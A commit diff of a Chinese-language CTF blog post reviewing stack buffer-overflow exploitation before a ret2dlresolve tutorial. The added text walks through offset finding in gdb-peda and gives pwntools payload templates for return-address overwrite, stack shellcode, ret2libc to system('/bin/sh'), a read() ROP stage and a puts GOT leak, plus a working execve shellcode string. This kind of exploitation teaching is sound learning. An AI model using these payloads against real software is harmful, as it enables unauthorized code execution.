

Before and after one commit to RhythmMark/RhythmMark.github.io, a Jekyll site: the page built from _posts/2019-04-03-Return_to_dl_resolve.md, in a window 1280 px wide and 1400 px high, scrolled down 1668 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2019-04-03-Return_to_dl_resolve.md

````diff
--- a/_posts/2019-04-03-Return_to_dl_resolve.md
+++ b/_posts/2019-04-03-Return_to_dl_resolve.md
@@ -1,17 +1,170 @@
 ---
 layout: post
-title: " 欢迎来到施工现场 "
+title: " 从壹开始做ret2dlresolve "
 date: 2019-04-02
-excerpt: "你看我在这里叫有人理我吗"
+excerpt: "就是从怎么找offset开始说的意思（正在施工）"
 tags: [pwn]
 feature:  https://p0.ssl.qhimg.com/t01a969a8d998ad5508.png
 comments: true
 ---
 
-# Dlresolve
 
+# 从壹开始做ret2dlresolve
 
 
 注意：full relro 的binary 是不会延迟绑定的……也意味着无法修改got表……
 
+先上一张图
+
 ![](https://raw.githubusercontent.com/RhythmMark/RhythmMark.github.io/master/_posts/pictures/ELF_dlresolve.jpg)
+
+好的我已经画得很清楚了，告辞（×）
+
+
+时隔差不多半年没做pwn，我觉得我有必要回忆一下做pwn题基础知识……
+
+写exp一般要用到的：
+
+```python
+from pwn import *
+context.log_level = 'debug'
+#io = remote('xxx.xxx.xxx.xx',xxxxx)
+io = process('./binary')
+...
+gdb.attach(io)
+...
+```
+
+下面用 **五条payload** 来回忆栈溢出
+
+### 0x1（返回地址至flag） 的场合
+
+``payload = 'A'*(0x108+0x04)+pack(0x0804856B)``
+
+其中``0x108``是binary给输入分配的空间的大小，用ida看的话一般是``sub     esp, 108h``这里的那个数字……``0x04``是``ebp``，不知道ebp是什么的去学习下函数调用栈……
+
+这两个加起来，即``0x108+0x04``的大小，下称``offset``或``pattern``或``padding``，意为到返回地址的偏移，达成伪造返回地址的填充之类的……
+
+一般来说……
+
+``gdb binary``
+用gdb加载要pwn的binary
+
+``pattern create 200``
+创建一个长度为200的pattern
+
+然后会出现
+
+``AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA``
+
+复制下来……
+
+``r``运行……停在等待用户输入的地方……
+
+粘贴pattern……``c``继续运行……
+
+然后……binary就会崩溃……出现
+
+```
+Legend: code, data, rodata, value
+Stopped reason: SIGSEGV
+00x41414641 in ?? ()
+gdb-peda$
+```
+
+之类的……
+
+（因为``0x41414641``应该是返回地址……binary正准备去执行那个地址的命令……但是被填充了奇怪的东西上去……所以就崩了……）
+
+然后……提取里面的``0x41414641``……
+
+执行``pattern offset 0x41414641``……
+
+会出现……``1094796865 found at offset: 44``
+
+
+那……offset就是44了……（已包含ebp……好像越说越乱（×））
+
+或者……用Cyclic pattern的话……可能显得没那么蠢……whatever
+
+所以``pack(0x0804856B)``就是我们伪造的返回地址。发送这条payload，没开什么保护、一切顺利的话，就会执行``pack(0x0804856B)``处的命令。
+
+### 0x2（返回地址至shellcode）（已知buf位置） 的场合
+
+``payload = shellcode + 'A' * (44 - len(shellcode)) + p32(ret)``
+
+类似0x1，``shellcode + 'A' * (44 - len(shellcode))``都是``pattern``，``ret``应该是buf的地址，而buf在我们进行输入之后，里面的内容就是``payload = shellcode + 'A' * (44 - len(shellcode)) + p32(ret)``，所以会执行shellcode……
+
+shellcode可以用：
+
+```
+shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
+shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
+shellcode += "\x0b\xcd\x80"
+"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
+```
+
+### 0x03 (return-to-libc attack)（已知gets地址） 的场合
+
+```
+payload = padding + p32(systemaddr) + p32(ret)                 + p32(binshaddr)
+          pattern    system()地址      执行system()后的返回地址      system()的参数
+```
+
+因为当调用一个函数的时候，栈一般长这样：
+
+``[局部变量|ebp|返回地址|参数]``
+
+我们把被害函数（就请求用户输入的那个……read之类的）的返回地址伪造成``systemaddr``之后，就会执行``system()``，此时binary就以为自己是在调用``system()``
+
+就以为栈里面的数据就是：
+```
+system()的局部变量  ebp                      返回地址           参数
+padding         +       p32(systemaddr) +  p32(ret)        + p32(binshaddr)
+                             ↑
+```
+第一行是binary误以为的，第二行是我们伪造的，第三行是表示“这是正在执行这条命令时候的示意图”……
+
+所以这个payload会让binary执行``system("/bin/sh")``√
+
+注：因为``int system(const char *command)``，所以参数那里是字符串地址而不是字符串
+
+### 0x04 未知gets地址，需要别的ROP 的场合
+
+注：buf应该在一个 **可读可写可执行** 的地方
+
+```
+                        read()      |read的返回地址|   |   read   的    参    数    |
+payload1 = pattern + p32(sys_read) +    p32(buf)    +  p32(0) + p32(buf) + p32(0x80)
+
+payload2 = shellcode
+
+```
+
+首先read函数：``ssize_t read(int fd, void * buf, size_t count);``
+
+因此这两个payload，发送``payload1``之后，binary执行``read(0,buf,0x80)``，即从文件标识符为0的标准输入中，获取80个字节长度的内容，将其读入buf这个地址中。
+
+此时会等待用户输入，然后我们发送payload2，``shellcode``。
+
+而read函数的返回地址正是``buf``的地址，因此buf上的``shellcode``会被执行。
+
+### 0x05 开了NX+ASLR，需要先泄露puts在got表中的地址，再进行ret2libc 的场合
+
+这里只说怎么泄露puts在got表中的地址
+
+注1：ASLR 会使堆、栈、libc的地址发生变化，但它不负责代码段以及数据段的随机化工作，这项工作由 PIE 负责，而PIE只有在ASLR开启之后才会生效。（所以puts函数的地址可以在ida里找……这就是下面payload中``puts_addr_ida``的意思（。））
+
+注2：即使程序有 ASLR 保护，也只是针对于地址中间位进行随机，最低的 12 位并不会发生改变。所以如果我们知道 libc 中某个函数的地址，那么我们就可以确定该程序利用的 libc。进而我们就可以知道 system 函数的地址。
+
+注3：由于可能会有延迟绑定，因此泄露的函数必须已被使用，不然got表中存放的是puts@plt下一条指令的地址……好像回到正题了
+
+这里只给出泄露payload：
+
+``payload = pattern + p32(puts_addr_ida)+rett+p32(puts_got)``
+
+rett用main函数地址就行了，也是在ida里找
+
+接下来就跟0x03差不多了
+
+我觉得复习得差不多了，下面开始dlresolve。
````
